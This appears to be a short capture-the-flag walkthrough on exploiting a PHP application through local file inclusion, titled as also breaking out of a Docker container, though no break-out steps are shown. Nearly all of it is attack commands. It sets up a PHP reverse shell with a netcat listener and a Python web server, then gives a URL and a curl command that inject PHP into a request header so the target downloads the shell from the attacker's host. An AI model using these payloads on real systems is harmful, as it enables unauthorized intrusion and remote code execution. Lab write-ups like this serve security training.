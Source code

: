 # 1. Exploit a PHP application via LFI and break out of a docker container

## Here the server accept the php code LFI
- __Here we are upload a shell.php to the websever__
__`/usr/share/laudanum/php/php-reverse-shell.php` and rename it as `shell.php`__
- __`mv /usr/share/laudanum/php/php-reverse-shell.php shell.php`__
  - > __Change the ip and port__
    > __`nc -lvnp 1234`__
- __`python3 -m http.server 8080`__

```url
http://10.10.96.138/?view=php://filter/resource=./dog/../../../../../../../ect/passwd=&cmd=curl -o shell.php 10.10.44.229:8000/shell.php
```
## Or you can do it from the terminal also using curl
```
curl -A “<?php file_put_contents(‘shell.php’,file_get_contents(‘http://{ATTACKER_IP}/shell.php'))?>" -s http://{MACHINE_IP}
```
for example

```
curl -A "<?php file_put_contents('shell.php',file_get_contents('http://10.10.44.229/shell.php'))?>" -s http://10.10.96.138
```
